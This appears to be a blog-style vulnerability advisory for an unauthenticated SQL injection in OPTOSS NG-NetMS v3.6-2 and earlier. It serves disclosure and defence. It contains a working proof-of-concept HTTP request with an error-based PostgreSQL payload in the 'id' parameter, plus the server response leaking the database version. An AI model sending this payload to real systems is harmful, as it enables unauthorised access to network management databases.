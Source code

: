 ```yaml
---
layout: post
title:  "SQL Injection in OPTOSS Next Gen Network Management System (NG-NetMS)"
date:   2019-01-20 19:51:02 +0700 
categories: [cve]
---
```


Vendor: OPT/NET BV

Product: OPTOSS Next Gen Network Management System (NG-NetMS)

Version affected: NG-NetMS v3.6-2 and earlier versions

#### Product description:
Opt/Net develops Next Gen Network Management System (NG-NetMS). This is a new web based end-to-end management tool. This project is nearly 14 years old and already proved to be indispensable tool for rapid data collection during audits and network infrastructure assessments.

This product provides near real-time visibility of the networks and ITC infrastructures and interconnected computing resources.

* CVE ID: CVE-2019-xxxx
* CWE ID: CWE-89

#### #Proof of Concept

The unauthenticated SQL Injection vulnerability can be exploited by issuing a specially crafted HTTP GET request. NG-NetMS v3.4 application fails to properly sanitize untrusted data before adding it to a SQL query. A malicious attacker can include own SQL commands which database will execute.

Identified vulnerable parameters: id, id_access_type and id_attr_access.  

The following HTTP GET request allows an attacker to exploit the SQL injection vulnerability to return banner information.

#### Request:
{% highlight ruby %}
GET /index.php?id=1%27%20AND%201=CAST((CHR(113)||CHR(112)||CHR(107)||CHR(122)||CHR(113))||(COALESCE(CAST(VERSION()%20AS%20CHARACTER(10000)),(CHR(32))))::text||(CHR(113)||CHR(106)||CHR(120)||CHR(113)||CHR(113))%20AS%20NUMERIC)--%20&r=attrValue/index HTTP/1.1
Host: a.b.c.d
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=q42805kqdm1pq02ig6omhfn3k4
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: no-transform
{% endhighlight %}

#### Response: 
{% highlight ruby %}
HTTP/1.1 500 Internal Server Error
Date: Mon, 30 Oct 2017 05:25:01 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.11
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html
Content-Length: 43313

<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>

<snip>

<h2>Error 500</h2>

<div class="error">
CDbCommand failed to execute the SQL statement: SQLSTATE[22P02]: Invalid text representation: 7 ERROR:  invalid input syntax for type numeric: &quot;qpkzq PostgreSQL 9.3.9 on x86_64-unknown-linux-gnu, compiled by gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4, 64-bit qjxqq&quot;</div>        </div><!-- content -->
    </div>
    <div class="span3">
        <div id="sidebar">
                </div><!-- sidebar -->
    </div>
</div>

</snip>
{% endhighlight %}

#### References
1. https://www.owasp.org/index.php/SQL_Injection
2. https://opt-net.eu/products/optoss-ng-netms
3. https://sourceforge.net/projects/ngnms/
